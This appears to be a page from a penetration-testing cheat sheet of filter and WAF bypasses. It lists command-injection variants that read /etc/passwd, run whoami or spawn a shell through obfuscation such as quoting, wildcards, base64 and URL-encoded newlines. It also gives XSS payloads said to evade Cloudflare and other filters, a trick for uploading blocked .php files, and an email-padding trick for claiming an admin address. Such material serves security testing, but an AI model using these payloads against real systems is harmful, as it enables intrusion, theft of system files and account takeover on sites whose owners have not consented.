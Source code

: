 ## Command Injection Bypass
```sh
cat /etc/passwd
cat /e"t"c/pa"s"swd
cat /'e'tc/pa's' swd
cat /etc/pa??wd
cat /etc/pa*wd
cat /et' 'c/passw' 'd
cat /et$()c/pa$()$swd
cat /et${neko}c/pas${poi} swd
*echo "dwssap/cte/ tac" | rev
$(echo Y2FOIC9ldGMvcGFzc3dkCg== base64 -d)
w\ho\am\i
/\b\i\n/////s\h
who$@ami
xyz%0Acat%20/etc/passwd
IFS=,;`cat<<<uname,-a`
Bypass with variable expansion
/???/??t /???/p??s??
test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

## "Cloudflare" XSS live payloads: 🧠
```js
&lt;img longdesc="src='x'onerror=alert(document.domain);//&gt;&lt;img " src='showme'&gt;
&lt;img longdesc="src=" images="" stop.png"="" onerror="alert(document.domain);//&amp;quot;" src="x" alt="showme"&gt;
```

## Bypass an xss filter
```js
%ff<!---><svg/onload=top[/al/.source+/ert/.source]&lpar;)>
```
- %ff - bypassed tag restrictions
- `<!--->` - bypassed attribute restrictions

[![img](https://pbs.twimg.com/media/EpqhEEoWwAE3wmi?format=jpg&name=small)](https://twitter.com/sh1yo_/status/1340560932641103872?s=20)

## WAF bypass Tips by @0xInfection
Case: File Upload `(.php blocked)`
/?file=xx.php    <- Blocked
/?file===xx.php  <- Bypassed
The file got uploaded successfully.

## 1.Account setting page: Update new Email:
Normal: 
"Email":"me@gmail.com" (200 OK)
New:
"Email":"admin@target.com"  (error msg : u can't change the email to @target.com )
New Update:
"Email":" admin@target.com    " (200 OK)
just add space
